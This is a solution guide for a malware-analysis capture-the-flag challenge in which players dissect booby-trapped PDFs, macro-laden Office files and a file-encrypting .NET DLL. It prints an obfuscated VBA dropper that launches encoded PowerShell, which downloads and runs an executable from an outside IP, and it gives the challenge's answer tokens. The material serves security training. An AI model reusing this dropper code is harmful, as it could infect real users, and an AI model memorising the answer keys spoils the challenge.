


# Wait, Don't Open That!

*Solution Guide*

## Overview

In this challenge, players have to analyze a collection of suspicious files to uncover their secrets by locating the strings associated with Parts 1 - 5.

Submit two tokens to complete this challenge. For the first token discover **Part 1**, **Part 2**, and **Part 3**, then append those strings in order without spaces or delimiters. **Parts 1, 2 and 3** will each be four character strings. For example: if the answer to **Part 1** is `abcd`, and the answer to **Part 2** is `1234`, and the answer to **Part 3** is `grok`, the first token you need to submit `abcd1234grok`.

For the second token, discover **Part 4** and **Part 5**, then append those strings in order without spaces or delimiters. **Part 4** is a six character string and **Part 5** is a twelve character string. For example: if the answer to **Part 4** is `456789`, and the answer to **Part 5** is `ABC123DEF456`, then the second token you need to submit would be `456789ABC123DEF456`.

*Wait, Don't Open That!* is an infinity-style challenge. The string values for Part 2, Part 3, and Part 4 change every time a new challenge is launched. The string values for Part 1 and Part 5 are the same for all instances of the challenge.

To find the string values associated with Parts 1 - 5, start by analyzing the files in the `Documents` folder of the Kali VM. Look at a combination of documents, scripts and executables. Locate, isolate, and execute potentially malicious code to see how it interacts with a host machine and see the kind of network calls made.

## Question 1

*Provide the value for token 1.*

To answer this question, analyze the files in the `Documents` folder and identify the strings associated with Parts 1 - 3.

### Part 1

1. Open the Kali VM, then the `Documents` folder.

    

2. Open the `Technology_Images.pdf` file and examine the document contents. The first 20 pages each have an image with text at the bottom of the page corresponding to the image number, such as `Reference 20`. However, starting at page 21 we have the text such as `Reference 21`, but the images are missing.

3. Open the document with Visual Studio Code. If the document opens as a viewable PDF rather than displaying the underlying document format, as pictured below, right-click the `Reopen Editor With`, then select `Text Editor`.

    

4. Notice that there are three pages at the end of the PDF document that do not have images. Further examination and comparison of image references shows there are three image references where the `/Subtype /image` text has a lowercase `/image`. All other references in the document use uppercase `/Image` text. PDF object references are case sensitive. Change those three instances from `/image` to `/Image` and save the document.

    

5. Close Visual Studio Code and open the document using a PDF viewer. Now look at pages 21, 22, and 23 of the PDF.

    

    

     

You discovered the value for `Part 1`, which is `e15d`. Additionally, you now know the string for `Part 2` will be clearly labeled and the text for `Part 3` will be found in a file named `part3.txt`.

### Part 2

1. Look at the `hacked_user_accounts.pdf` file. Notice it is roughly 66.1 MB. This seems like a considerably large file for something that only contains 884 pages of user account text data. Open the file with a PDF viewer application. Everything looks normal.

    

2. Open the `hacked_user_accounts.pdf` file with `wxHexEditor`. Select `View`, then uncheck the `Zebra Striping` checkbox. This improves visibility while searching. A PDF document should end with the `EOF` or `end of file` delimiter. However, scrolling to the end of the file in `wxHexEditor` shows a few strange references to what appear to be .NET dll files.

    

3. Try finding the `EOF` delimiter. Start at the beginning of the file. Select `Edit`, then `Find`. Select `Text` in the `Search as` option field. Enter `EOF` in the `Search` field and check `Match Case`. Click `Find All`.

    

    You will find 37 results. Notice the first result displayed shows the `EOF` characters followed by the characters `ELF`. The `ELF` delimiter indicates that this is the beginning of an executable file. 

    

    The `ELF` offset starts at `2477913`. 

4. Open a terminal and `cd` to the `Documents` folder, then extract the suspicious executable using the following command:  

    ```bash
    dd skip=2477912 if=hacked_user_accounts.pdf of=extracted.binary bs=1
    ```

    >Note: This command will probably take a few minutes to run.

    

    Use the `skip` argument of the `dd` command to tell it skip the first 2477912 bytes since we know the `ELF` starts at `2477913`. 

5. Examine the extracted file using the following command:

    ```bash
    file extracted.binary
    ```

    

6. Set the executable flag on the file with the following command:

    ```bash
    chmod +x extracted.binary
    ```

    

7. Run the file with the following command:

    ```bash
    ./extracted.binary
    ```

    

    It appears as if this executable is claiming to scan your machine for malware, but that DNS is failing when trying to contact `updates.micr0sh0ftware.com`.

8. Add an entry to your local hosts file by entering the following command in the terminal:

    ```bash
    sudo nano /etc/hosts
    ```

9. Add the following line to the bottom of the file:

    ```
    127.0.0.1 updates.micr0sh0ftware.com
    ```

10. Enter `ctrl-o` to save your changes, followed by `ctrl-x` to close `nano`. 

    

11. Run the executable again:

    ```bash
    ./extracted.binary
    ```

    Looks like it is connected to another server. 

12. Start Wireshark to see if there is any interesting network traffic.

    ```bash
    sudo wireshark
    ```

13. Select `eth0` and start the packet capture.

    

    While examining the network traffic, we see an interesting call to `123.45.67.119`. 

    

14. Select this entry and examine the text data. You have discovered the text for `Part 2`. In this case it is `fae4`

    

### Part 3

1. Open the `Product_Sales_Data_2023.xlsm` file. The file extension hints that this document might contain embedded macros.

    

2. Select `Tools` > `Macros` > `Edit Macros` from the menu.

    

3. Use the Object Catalog to browse the objects and open the item named `ThisWorkbook`.

    

4. Look at the code--the **Workbook_Open** method tries to download five different files. 

    

    

    

    

    

    

    The **StringExecute** method is called at the end of the **Workbook_Open** method and attempts to run the previously downloaded code.

    Examining the other code reveals there are methods to Base64 encode and Base64 decode strings, as well as download, unzip, and run executables.

    

    

    Further examination of the link to `http://123.45.67.119/scr9012/qzayqzay/c_4.txt` reveals another link to `http://123.45.67.119/scr9012/part3token/part3.txt`. Notice after this file is downloaded, the content is Base64 decoded.

5. Open the link to: `http://123.45.67.119/scr9012/part3token/part3.txt`. It reveals the following string: 

    ```
    NjA3Nw==
    ```
6. We already know that `part3.txt` contains the four-character string we need. Decode the value with the following command:

    ```bash
    echo "NjA3Nw==" | base64 -d
    ```

    This reveals the four-character string for Part 3: `6077`.

    

We now have the text for Parts 1, 2 and 3. Append the strings in order to create the submission for Token 1.

- Part 1 = `e15d`
- Part 2 = `fae4`
- Part 3 = `6077`

The correct submission for Question 1 is: `e15dfae46077`.

From the Kali VM, navigate to `https://challenge.us` to enter the token values and grade the challenge.


## Question 2

*Provide the value for token 2.*

Analyze the files in the `Documents` folder and identify the strings associated with Part 4 and Part 5 to answer Question 2. 

### Part 4

1. On the Kali machine, open **ILSpy**.

    

2. Select `File` > `Open` and browse to `/home/user/Documents/`.  Select the **NetworkMonitorApp.dll**, then click `OK`.

    

3. Browse to the `Main` method by expanding `NetworkMonitoringApp` > `NetworkMonitoringApp` > `Program` > `Main`. Examine the code.

    

4. Browse to the `RunDefaultFeature` method by expanding `NetworkMonitoringApp` > `NetworkMonitoringApp` > `Program` > `RunDefaultFeature`. Examine the code.

    

    The code downloads a key file from a web server, then attempts to encrypt files in the `/home/user/Documents` directory when it is executed locally.

5. Open a web browser and try investigating the URL found in the code: `http://123.45.67.119/524A2630D6A9/`. You see two file: `part4.txt.enc` and `part4key.txt`. Download the `part4.txt.enc` file to the Desktop.

    

    Based on the code we found, we can see once a file is encrypted, it is renamed with a `.enc` file extension. 

6. Try using the key (downloaded from the web server), iv (declared as a variable in the source code) and existing source code to decrypt the `part4.txt.enc` file. While there are multiple ways to decrypt this file, this guide walks you through a solution where you will write C# code.

7. Create a new folder on the Kali Desktop called `decrypt`. Open a terminal and `cd`: 

    ```bash
    cd Desktop/decrypt
    ```

8. Create a new .NET console project:

    ```bash
    dotnet new console
    ```

    

9. Open Visual Studio Code, then choose `File` > `Open Folder`. Select the `/home/user/Desktop/decrypt` folder. 

    

10. Check the text box and choose to `Trust the Authors` if you are prompted.

    

11. Open the `Program.cs` file and replace its contents with the following code, making sure to the replace the key value with the string that is in the `part4key.txt` file on the web server. Please note that there are multiple ways to solve this challenge. The code included below is meant to serve as an example.

    ```c#
    using System.Security.Cryptography;

    string key = "0488a3949b1761c5";
    string iv = "gr5@uC10pkzeD7yT";

    try
    {
        string filePath = "/home/user/Desktop/part4.txt.enc";
        
        using (var sourceFileStream = File.OpenRead(filePath))
        using (var destinationFileStream = File.Create(filePath.Replace(".enc", "")))
        using (var aesCryptoServiceProvider = new AesCryptoServiceProvider())
        {
            aesCryptoServiceProvider.Key = System.Text.Encoding.Default.GetBytes(key);
            aesCryptoServiceProvider.IV = System.Text.Encoding.Default.GetBytes(iv);
            sourceFileStream.Read(aesCryptoServiceProvider.IV, 0, aesCryptoServiceProvider.IV.Length);
            using (var cryptoTransform = aesCryptoServiceProvider.CreateDecryptor(aesCryptoServiceProvider.Key, aesCryptoServiceProvider.IV))
            using (var cryptoStream = new CryptoStream(sourceFileStream, cryptoTransform, CryptoStreamMode.Read))
            {
                cryptoStream.CopyTo(destinationFileStream);
            }
        }
    }
    catch (Exception exc){}

    ```

    

11. From the menu, select `Terminal` > `New Terminal`. Make sure you are in the project folder. In this case it is: `/home/user/Desktop/decrypt`. Enter: `dotnet build` in the terminal and press `Enter`.

    

12. Make sure you are in the project folder. In this case it is: `/home/user/Desktop/decrypt`. Enter: `dotnet run` and press `Enter`.

    

13. A new file should have been written to the Kali desktop named `part4.txt`. Open the file to retrieve the text for Part 4. These are the first six characters of token 2.

    

### Part 5

1. Open the `Inventory.docm` file from the `Documents` folder. The `.docm` file extension is a clue that there are macros in this document.

    

2. Select `Tools` > `Macros` > `Edit Macros`.

    

3. Use the **Object Catalog** and navigate to `Inventory.docm` > `Project` > `Document Objects` > `This Document`.

    

4. Begin examining the code. The `Document_Open` method calls a few methods. We have highlighted the most relevant code here. 

    ```vb
    Private Sub Document_Open()
        qmc25G5Ts ("H5KVjxFwm")
        AsTVF5Drm ("pZTFuTgJZ")
        ghTyUj45d
        qmc25G5Ts ("pZTFuTgJZ")
    End Sub

    Public Function yKvCXNf(vRKbufsX)
    zYdt3wfBD = s4rf4fgK9 + qfFpyPr89qfFpyPr8 = xgHuSVRNt
    tRaBrJRnN = xgHuSVRNt + SLLQ6P3gN + SLLQ6P3gN + SLLQ6P3gN = pkgaBYnLS
    zYdt3wfBD = s4rf4fgK9s4rf4fgK9 + rXg2s4Mvj + rXg2s4Mvj = CemHGmAZS
    s4rf4fgK9 = AYRV4beqB + C9q98y4cpC9q98y4cpC9q98y4cp = s4rf4fgK9
    zYdt3wfBD = s4rf4fgK9 + qfFpyPr89qfFpyPr8 = xgHuSVRNt
    tRaBrJRnN = xgHuSVRNts4rf4fgK9 + SLLQ6P3gN + SLLQ6P3gN + SLLQ6P3gN = pkgaBYnLS
    zYdt3wfBD = s4rf4fgK9 + rXg2s4Mvj + rXg2s4Mvj = CemHGmAZS
    s4rf4fgK9 = AYRV4beqBs4rf4fgK9 + C9q98y4cpC9q98y4cpC9q98y4cp = s4rf4fgK9
    fgtYedfgtYed = ActiveDocument.CustomDocumentProperties(vRKbufsX)
    yKvCXNf = fgtYedfgtYed
    zYdt3wfBD = s4rf4fgK9xgHuSVRNt + rXg2s4Mvj + rXg2s4Mvj = CemHGmAZS
    s4rf4fgK9 = AYRV4beqB + C9q98y4cpC9q98y4cpC9q98y4cp = s4rf4fgK9
    zYdt3wfBD = s4rf4fgK9xgHuSVRNt + qfFpyPr89qfFpyPr8 = xgHuSVRNt
    tRaBrJRnN = xgHuSVRNt + SLLQ6P3gN + SLLQ6P3gN + SLLQ6P3gN = pkgaBYnLS
    zYdt3wfBD = s4rf4fgK9xgHuSVRNt + rXg2s4Mvj + rXg2s4Mvj = CemHGmAZS
    s4rf4fgK9 = AYRV4beqB + C9q98y4cpC9q98y4cpC9q98y4cp = s4rf4fgK9
    End Function

    Public Function jyCu97WhS(args)
    x1 = Base64DecodeString("d3NjcmlwdC5zaGVsbA==")
    x2 = Base64DecodeString("cG93ZXJzaGVsbCAtZSA=")
    payload = x2 + "" + args
    CreateObject(x1).Run$ payload
    End Function

    Function Base64DecodeString(text As String) As String
        Dim byteArray() As Byte
        Dim objXML As MSXML2.DOMDocument60
        Set objXML = New MSXML2.DOMDocument60
        Dim objNode As MSXML2.IXMLDOMNode
        Set objNode = objXML.createElement("base64")
        objNode.DataType = "bin.base64"
        objNode.text = text
        byteArray = objNode.nodeTypedValue
        Base64DecodeString = VBA.StrConv(byteArray(), VbStrConv.vbUnicode, 1033)
        Set objNode = Nothing
        Set objXML = Nothing
    End Function

    Public Sub ghTyUj45d()
        Dim qa23erU As String
        Dim cvbNyt As String
        qa23erU = yKvCXNf("6vZkvnvaJ")
        cvbNyt = Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("HxhuvHDpX")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("KsyqLdEfG")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("NNG6ys8RW")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("RG9NQGaf8")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("JNmGZdLyA")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("svX3fsvW4")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("u2ZsRG4cZ")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("UKDw2uumd")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("RG9NQGaf8")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("hJ7YKYhFx")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("kjdR7phqk")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("6EYGHc3Pr")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("UC3DfPjDu")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("RG9NQGaf8")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("3tHgm2mDz")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("9qYkYZpJ2")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("dUAHakcVN")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("5m6T7M4wJ")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("6EYGHc3Pr")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("6EYGHc3Pr")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("Qhpc3scfk")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("RG9NQGaf8")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("9wdxFTtFj")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("6EYGHc3Pr")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        jyCu97WhS (cvbNyt)
    End Sub

    ```

5. Notice the calls to `ActiveDocument.CustomDocumentProperties` in the `yKvCXNf`function. The `ghTyUj45d` method calls this function repeatedly and then calls the `Base64DecodeString` method on the results.

6. Go to the main document window where the `.docm` file is visible. Select `File` > `Properties`, then the `Custom Properties` tab. It isn't necessary to view all the properties from this window. Players should pull all the values from the macro code in the same order they are accessed by the code. However, if you do wish to view all properties from this window you may need to hit the **Reset** button.

    
If we start using the `base64 -d` command on these strings, we begin to see code that looks like PowerShell code.

      

7. Look at the `ghTyUj45d` method. A series of repeated calls to the following two methods are made: 

    ```vb
    qa23erU = yKvCXNf("6vZkvnvaJ")
    cvbNyt = Base64DecodeString(qa23erU)
    ```

    In this instance, `6vZkvnvaJ` is the name of one of the custom properties. The base64-encoded string is retrieved from the document property, then base64 *decoded*. Repeating these steps in order for each line as they are called by the `ghTyUj45d` method helps you recreate a complete PowerShell script.

    ```powershell
    $wscript = New-Object -ComObject WScript.Shell;
    $webClient = New-Object System.Net.WebClient;
    $url = "http://123.45.67.119/GvB5e290UKcTxA88/";$path1 = "trx1.txt";$path2 = "sdey2.txt";$path3 = "ktwm3.txt";

    try
    {
        $Response1 = Invoke-WebRequest -URI ($url + $path1);
        $Response2 = Invoke-WebRequest -URI ($url + $path2);
        $Response3 = Invoke-WebRequest -URI ($url + $path3);

        if ($Response1.Content -eq "5150" -and $Response2.Content -eq "OU81" -and $Response3.Content -eq "1984")
        {
            $fileContent = $Response1.Content + $Response2.Content + $Response3.Content
            Write-Host "You discovered Part 5:" $fileContent.ToUpper();
        }
        else
        {
            Write-Host "Downloading updates . . . !";
            $webClient.DownloadFile($url.ToString, "fsTredwsjUyzv/updates.exe");
            Write-Host "Installing updates . . . !";
            Start-Process ${path};
        }    
    }
    catch
    { 
        write-host $_.Exception.Message; 
    }
    ```

    The script is passed to the `jyCu97WhS` method, which runs the PowerShell script. The most important thing is the script downloads the contents of three files (`trx1.txt`, `sdey2.txt` and `ktwm3.txt`) from `http://123.45.67.119/GvB5e290UKcTxA88/`. It checks to see if the values in those files can be appended to equal the string `5150OU811984`. If so, a message is written to the console stating you discovered Part 5. The value `5150OU811984` is the Part 5 string, which is the second part of Token 2.

    - **Part 4:** `eb68c4`
    - **Part 5:** `5150OU811984`

The correct submission for Question 2 is: `eb68c45150OU811984`.

9. From the Kali VM, navigate to `https://challenge.us` to enter the token values and grade the challenge.

    
